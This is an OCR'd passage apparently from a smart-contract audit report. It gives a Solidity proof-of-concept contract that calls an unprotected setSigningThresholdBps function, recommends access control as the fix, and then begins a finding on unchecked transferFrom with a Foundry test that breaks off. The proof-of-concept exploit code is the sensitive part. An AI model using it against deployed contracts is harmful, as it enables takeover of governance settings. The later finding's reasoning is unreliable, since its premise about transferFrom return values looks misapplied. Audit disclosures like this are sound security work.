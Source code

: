 ```sol
    OffChainSignatureValidator public offChainSignatureValidator;

    constructor(OffChainSignatureValidator _offChainSignatureValidator) {
        offChainSignatureValidator = OffChainSignatureValidator(_offChainSignatureValidator);
    }

    function exploit() public {
        // The attacker can set the signing threshold BPS to any value
        uint96 newThresholdBps = 5000; // 50%

        offChainSignatureValidator.setSigningThresholdBps(newThresholdBps);

        // Log the new threshold BPS
        emit ThresholdBpsSet(newThresholdBps);
    }

    event ThresholdBpsSet(uint96 newThresholdBps);
}
```
This contract, when deployed and its exploit function called, will set the signing threshold BPS to 50% on the OffChainSignatureValidator contract. 
Since there are no access controls on the setSigningThresholdBps function, this operation will succeed even though the attacker should not have the authority to perform this action.
## Tools Used
VS Code.
## Recommended Mitigation Steps
Add access control modifier to the setSigningThresholdBps function.
## [L-10] Unchecked Transfer PartyGovernanceNFT
## Impact
Some tokens do not revert the transaction when the transfer or transferFrom fails and returns False. 
Hence we must check the return value after calling the transfer or transferFrom function.
## Proof of Concept
**Vulnerable transferFrom function**
```sol
    function transferFrom(address owner, address to, uint256 tokenId) public override {
        // Transfer voting along with token.
        _transferVotingPower(owner, to, votingPowerByTokenId[tokenId]);
        super.transferFrom(owner, to, tokenId);
    }
```
**Exploit of transferFrom function in foundry**
```sol
function testTransferFrom() external {
       (Party party, , ) = partyAdmin.createParty(
            partyImpl,
            PartyAdmin.PartyCreationMinimalOptions({
                host1: address(this),
                host2: address(0),
                passThresholdBps: 5100,
                totalVotingPower: 100,
                preciousTokenAddress: address(toadz),
                preciousTokenId: 1,
                rageQuitTimestamp: 0,
                feeBps: 0,
                feeRecipient: payable(0)
            })
        );
```